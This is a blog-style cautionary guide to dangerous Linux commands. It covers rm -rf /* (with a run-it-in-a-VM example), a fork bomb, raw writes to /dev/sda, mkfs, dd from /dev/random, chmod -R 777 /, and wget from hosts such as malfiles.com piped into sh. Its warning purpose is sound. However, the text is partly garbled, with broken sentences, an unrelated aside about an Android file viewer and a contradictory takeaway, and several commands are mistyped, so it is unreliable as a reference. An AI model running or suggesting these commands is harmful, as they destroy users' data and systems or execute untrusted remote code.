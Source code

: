 # Linux commands not to try in Production

As opposed to Windows or some other operating system, the Linux operating system gives the users greater freedom. Although the Linux operating system provides certain seasoned developers with the freedom to carry out operations, it can even limit the freedom given to these developers. Linux, like all other technology, has advantages and disadvantages. It's critical that the consumer has
Don't use these Linux commands, but get to know what are the commands that you should never use. Before performing any instructions, the operator must have a thorough knowledge of both secure and lethal commands. Here, we'll go through the dangerous commands that you can never use until you really understand what they mean.

The rm -rf command is one of the quickest ways to uninstall a folder and its contents. It has grown in popularity over the years since it eliminates the mistake that occurs in Windows when a file or folder is removed. This command deletes everything on the file, folder, or hard disc on which it is run. Let's break down the command and figure out what it actually means:

`rm` – Remove all the files in locations given.

`-rf` – This command is further divided into two parts: `r` and `f`. `r` stand for removing all the files recursively while `f` stands for a force which means that delete all the files without prompting the user.

There are a number of variations of this command available over the internet. It is important to understand that one should know what a command does once running on a specific folder or the data can be lost. Data lost from this command cannot be recovered in any way.

`rm` – This command is used to delete files all the files in the path that you will provide

`rm -r` – This command is used to delete files recursively from all directories and sub-directories in Linux Operation System.

`rm -f `– This command is used to delete files on the path provided without prompting the user. This also includes deleting the “Read Only Files”.
`rm -rf /` – This is one of the most dangerous commands as the / refers to the root directory of the operating system. Once this command is run, it deletes all the content of the root directory forcefully and recursively. Thus, all your directories and subdirectories will be deleted and the data will be lost.

`rm -rf *` – This command forcefully deletes all the data in the working directory.

`rm -rf.` –  This command forcefully deletes the files in the current working directory as well as sub-directories. It also removes all the configuration files in the directory.

`rm -rf /*` : this is the command that removes everything from the Directory that you have mentioned but this particular command just removes it all.

Some Example that you can do on a Linux Virtual Machine or the Container.

```
$ mkdir some_new_directory_to_delete
$ cd some_new_directory_to_delete
$ gedit new1.txt
$ rm -rf /*
```
now in the last command the __*__ is forcing the command to happen.


but if you just go and do the **/** only it will give you the warning saying it doesn't work, its risky thus __*__ is the magic here.

If you want to remove all the file system then you can add `sudo` and write the command `sudo rm -rf /*`, _sudo_ here is the root access privilege where this gives a control of all the file system on the computer.

Thus, afterwards even the least of the known commands in the Linux terminal which was working before you wrote these commands like `ls` , `pwd` and many more even the GUI aspects will be lost, like the icons and the other functionality just a bare kernel even worse than your container will be made available to you if you are not lucky.After wards when you try to log back in you will find that you will not be able to login back once again.Thus if you have a image that you want like the "OVA file" Open Virtual Appliance (OVA).For distribution purposes, OVA files are essentially an OVF directory stored in a single folder using. TAR packing. OVA files are often referred to as Open Virtual Applications. File Viewer for Android supports over 150 file formats.

if you have a ESXI(ESXi stands for Elastic Sky X Integrated is an enterprise server virtualization platform by VMware) host then you need to back up some things and work with it and there are a lot of YouTube videos do see them and try taking a backup but in virtual box its very simple just copy and save the OVA file.

`rm -rf /`
The order rm -rf / deletes everything it can find, including files on your hard drive and removable media players. This command is easier to grasp if it is broken down:

Linux will gladly follow this order and uninstall all without asking you, but use it with caution! The rm command can also be used in risky ways, such as deleting all files in your home folder with rm –rf, or deleting all setup files with rm -rf.*.

* Fork Bomb
Since Linux is based on Bash, it is important to consider what the command can do to your machine before running it. This is a basic bash function that, when run, makes copies of itself, and then makes more copies of itself. This takes up CPU time and memory. As a result, it runs recursively before the system crashes.

`:(){:|:&};:`

**Overwrite Hard Drive** (If you accidentally or mistakenly executed the following instruction on your hard disc, recovery is almost impossible.)


`> dev/sda` this is a simple command that will ruin your hardisk.

example of the command: `<command> > dev/sda`


This command writes raw data to the specified hard drive. As a consequence, data on the hard drive or partition specified in the command is lost. Let's split down the command into pieces so we can grasp what each one does.

__`<command>`__ - can be anything where as a file or This can be any command entered by the user.

__>__ -  This is in charge of transmitting the command's output to the specified location.

__dev/sda__ -The command's output will be written to this spot.As a result, before running the script, you should understand what it would do to your operating system and hard drive. Furthermore, avoid using commands that require the hard drive positions, such as dev/sda. 

`mkfs.ext4 /dev/sda1`

```
mkfs.ext4 – On the following screen, create a new ext4 file system.

/dev/sda1 – The first partition on the first hard disc, and is most often in operation.
```

This instruction, when combined, is similar to running format c: on Windows – it will erase the files on the first partition and replace them with a new file system.
This command may also take other forms: mkfs.ext3 /dev/sdb2 will use the ext3 file system to format the second partition on the second hard drive.
The Takeaway: Be cautious when executing commands directly on hard disc machines that begin with **w**.

**The Key Takeaway:** Exercise caution when executing commands directly on hard disc machines that begin with /dev/sd.

There are more than one way to break your hard disc. `dev/null` is a special position in any Linux machine that is denoted as a black hole. Anything that is moved into this black hole is lost. If you mistakenly transferred your data to this folder, you will not be able to restore it.


`mv /home/root/*  dev/null`

`mv - This command is used for moving a folder to another location`

`/home/root/*` – This is the path to the folder that will be relocated.

dev/null – The black hole is a special spot.

As a result, you should use caution when using the move button. Check that the place to which you are transferring your folder occurs on the system.

`> /dev/sda` this command will write directly on hardisk /SSD.

Similarly, the command > /dev/sda line executes a command and sends the results of that command directly to the first hard drive, writing data to the hard disc drive and destroying your file system.

example :  `command > /dev/sda `

`command` – Execute a command (can be any command that you wish.)

`>` – Direct the command's output to the following spot.

`/dev/sda` – Directly write the command's output to the hard disc drive.

Flush file content  on the directory is one method.

`>file_name` : If you've ever run a command of the above-mentioned kind, you'll notice that the contents of the listed file have been flushed. Since “>” is in charge of flushing the contents of the file, double-check the command you're running.

Writing random file or the memeory on the Harddisk: `dd if=/dev/random of=/dev/sda`


`dd` – Copy data from one site to another at a low level.`dd` copies data from one location to another, which can be dangerous if you’re copying directly to a device.

`if=/dev/random` – Use `/dev/random` (random data) as the input – you can also see /dev/zero (zeros).

`=/dev/sda` – Write to the first hard disc, overwriting the file system with arbitrary garbage files.


`Chmod -R 777/` : This command does not physically damage the system in the same way as any of the other commands mentioned in each section, but it does have a security violation on the system. By running this instruction, you are allowing all machine users to read, write, and execute data on your file system. As a result, use this command with caution.


Internet can also be a very disgusting thing sometimes thus :A script from the internet and sends it to `sh`, which executes the script's contents This is risky if you don't know what the script is or if you don't trust the author – never run untrusted scripts.

`wget` – This command downloads a file. (Curl can also be used in place of wget.)

`http://malfiles.com/your_voucher` – Formalized adverbial adverbial ad This is where you can get the file.

`|` – Explicitly pipe (send) the wget command's output (the file you downloaded) to another command.

`sh` – Run the file via the sh command, which will execute it if it is a bash script.

So don’t download and run untrusted scripts from the web, even with a command.

```
wget http://malicious_source -o- | sh
```

```
wget http://example.com/something  -o- | sh -
```

```
wget http: //an-untrusted-url -o- | sh
```

Do you know of any other risky commands that recent (and experienced) Linux users can avoid using? So leave a comment and post them! I hope that this specific knowledge about the *lethal commands* prevents you from missing data from your device. Let us know whether this was helpful or not in the comments section below.
